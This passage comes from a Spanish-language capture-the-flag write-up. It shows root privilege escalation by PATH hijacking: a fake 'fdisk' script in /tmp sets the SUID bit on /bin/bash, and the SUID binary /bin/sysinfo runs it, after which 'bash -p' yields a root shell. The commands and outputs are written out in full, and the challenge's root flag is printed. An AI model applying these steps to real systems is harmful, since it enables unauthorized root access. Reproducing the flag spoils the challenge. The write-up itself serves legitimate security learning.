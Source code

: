 ```bash
deregister_tm_clones
```

Lo que haremos ahora sera efectuar un `path hijacking`, donde alteraremos la ruta de nuestro `path` y crearemos un archivo de nombre `fdisk` donde le otorgaremos el privilegio `suid a la bash`, de modo tal que al ejecutar `/bin/sysinfo` hara uso del comando `fdisk` y al haber manipulado nuestro `path` lo hara desde la ruta actual que especifiquemos donde tendremos nuestro archivo creado, esto debido a que `fdisk` no se esta aplicando de manera absoluta.


Te dejo el siguiente articulo para que veas mas a fondo esta vulnerabilidad.

* [https://deephacking.tech/path-hijacking-y-library-hijacking/#path-hijacking](https://deephacking.tech/path-hijacking-y-library-hijacking/#path-hijacking)


Procedemos a crearnos el archivo en la ruta `/tmp`, que generalamente es donde se tiene permiso de escritura y le damos permiso de ejecución.

```bash
theseus@ubuntu:/tmp$ cat fdisk 
#!/bin/bash

chmod u+s /bin/bash
theseus@ubuntu:/tmp$ chmod +x fdisk
```

Ahora manilupalaremos nuestro `path` para que este tire desde la ruta `/tmp`

```bash
theseus@ubuntu:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
theseus@ubuntu:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```


Ejecutamos el `/bin/sysinfo` y vemos el privilegios de la `/bin/bash` fue asignado correctamente.

```bash
theseus@ubuntu:/tmp$ /bin/sysinfo
====================Hardware Info====================
H/W path           Device     Class      Description
====================================================
                              system     VMware Virtual Platform
/0                            bus        440BX Desktop Reference Platform

theseus@ubuntu:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

Ahora solo debemos ejecutar el comando `bash -p` y estariamos como el usuario `root`, seguidamente podemos dirigirnos al directorio del usuario `root` y visualizar la segunda flag `root.txt`.


```bash
theseus@ubuntu:/tmp$ bash -p
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# cat root.txt 
a4f562d7949903aa1bf84994c94ce9e3
```



